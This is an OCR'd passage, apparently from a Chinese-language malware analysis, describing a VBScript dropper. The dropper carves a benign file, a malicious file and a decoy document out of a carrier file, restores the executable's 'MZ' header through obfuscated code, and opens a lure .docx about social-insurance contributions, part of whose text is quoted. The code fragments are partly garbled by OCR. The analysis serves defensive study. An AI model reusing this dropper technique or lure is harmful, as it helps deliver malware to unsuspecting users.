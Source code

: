 Dim hvufffhqcicb   
Set hvufffhqcicb $=$ Createobject(var_adostring)   
hvufffhqcicb.open   
hvufffhqcicb.type= edsjtnsgxjgzmgcxptb   
hvufffhqcicb.LoadFromFile(tmpLL)   
hvufffhqcicb.Position $=$ 11598   
areadBytes $=$ hvufffhqcicb.Read（249374）'白文件   
breadBytes $=$ hvufffhqcicb.Read（1032190）·黑文件   
dreadBytes $=$ hvufffhqcicb.Read(）·诱饵文件   
Dim rkpolnumax   
Set rkpolnumax $=$ Createobject(var_adostring)   
rkpolnumax.Type $\equiv$ edsjtnsgxjgzmgcxptb  

![](https://cdn-mineru.openxlab.org.cn/extract/a26fccab-5f2a-415e-b7df-39235cfc1aa6/ddb148afce819743941e53b4a2546a0397d0d4c474387ba0cbdbdffeb91a6403.jpg)  
设置游标并读取dropper内容&文档内容  

#### 2.定位并保存诱饵文档  

保存dropper后续数据至本地%temp%\关于社保、职业年金、公积金缴存基数调整和补扣的通知.docx，启动该文件。  

![](https://cdn-mineru.openxlab.org.cn/extract/a26fccab-5f2a-415e-b7df-39235cfc1aa6/574c7c80a8f592ddaeeeb7567f9bfd9a1b681bd33df65146c01d128259905196.jpg)  
诱饵文件偏移  

#### 3.修复dropper程序  

Set awyceovsiokmff = CreateObject (var_adostring)   
awyceovsiokmff.Type =2   
awyceovsiokmff.charset = gnyzrblvdyeozkn("49534f2d38") & gnyzrblvdyeozkn("3835392d31")\*IS0-8859-1   
awyceovsiokmff.open   
awyceovsiokmff.WriteText Chr(CLng(gnyzrb1vdyeozkn("2648")&gnyzrblvdyeozkn("3444"))\*M   
awyceovsiokmff.WriteText Chr(CLng(gnyzrblvdyeozkn("2648")& gnyzrblvdyeozkn("3541")))\*Z   
awyceovsiokmff.SaveToFile tmpA,2   
awyceovsiokmff.Close  

修复dropper程序  

# ）诱饵文档  

诱饵文档部分内容如下：  

## 关于 2023 年度灵活就业社保补贴受理的公告  

为鼓励扶持就业困难人员多渠道灵活就业，根据福建省劳动就业服务局《关于印发<就业困难人员灵活就业社会保险补贴经办规程（试行）>的通知》（闽就服（2022）20号）和漳州市财政局漳州市人力资源和社会保障局《关于转发<福建省就业补助资金管理实施办法>的通知》（漳财社（2019）40号）文件规定，现就2023年度龙文区就业困难人员和高校毕业生灵活就业社保补贴申报受理有关事宜，公告如下。  

### 一、申领时间  

2023年10月16日—2023年12月31日  

### 二、申领流程  

就业困难人员灵活就业后，向公共就业人才服务机构申报就业并以个人身份在漳州市灵活就业窗口缴纳基本养老保险费、基本医疗保险费的。向我区劳动就业服务中心提出社保补贴申请。  
